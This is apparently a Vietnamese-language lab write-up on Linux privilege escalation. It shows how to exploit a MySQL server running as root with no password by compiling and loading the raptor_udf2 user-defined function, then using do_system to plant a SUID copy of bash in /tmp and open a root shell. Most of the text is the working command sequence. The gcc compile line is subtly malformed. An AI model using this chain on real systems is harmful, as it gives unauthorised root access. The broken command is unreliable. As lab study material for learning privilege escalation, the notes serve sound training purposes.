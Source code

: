 ## Service Exploits (Khai thác dịch vụ)
* MySQL server đang chạy với quyền root nhưng root user lại không được cấp pass. Ta có thể khai thác User Defined Functions (UDFs) để chạy command với quyền root thông qua MySQL
  - Đầu tiên ta cd đến folder của MySQL UDFs: ```cd /home/<username>/tools/mysql-udf```
  - Thực thi code xâm nhập raptor_udf2.c:

        gcc -g -c raptor_udf2.c -fPIC
        gcc -g -shared -wl, -soname, raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lv
  - Kết nối tới MySQL với quyền root (mật khẩu rỗng):
 
        mysql -u root
  - Thực thi những câu lệnh sau để MySQL shell để tạo một UDFs:
 
        use mysql;
        create table foo(line blob);
        insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
        select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
        create function do_system returns integer soname 'raptor_udf2.so';
  - Dùng hàm để copy /bin/bash với /tmp/rootbash và cấp quyền SUID

        select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
  - Thoát shell MySQL (dùng ```exit``` hoặc ```\q```) và chạy lệnh với option ```-p``` để chạy shell với đặc quyền root

        /tmp/rootbash -p
  - Nhớ xoá ```/tmp/rootbash``` và thoát khỏi root shell trước khi tiếp tục
    
        rm /tmp/rootbash
        exit
    
